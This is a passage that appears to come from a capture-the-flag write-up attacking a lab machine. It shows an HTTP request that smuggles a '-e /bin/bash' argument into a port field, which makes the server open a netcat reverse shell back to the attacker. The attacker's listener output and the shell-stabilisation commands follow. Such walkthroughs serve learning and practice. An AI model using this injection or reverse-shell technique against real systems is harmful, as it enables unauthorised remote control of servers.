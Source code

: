 
```c
POST /index.php?expertmode=tcp HTTP/1.1
Host: 10.10.114.88
Content-Length: 66
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://10.10.114.88
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.114.88/index.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

ip=10.8.0.2&port=9001+-e+/bin/bash
```

![](images/2024-09-20_11-37_reverse_shell.png)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 48650

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@down:/var/www/html$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

www-data@down:/var/www/html$ 
www-data@down:/var/www/html$ export XTERM=xterm
www-data@down:/var/www/html$
```
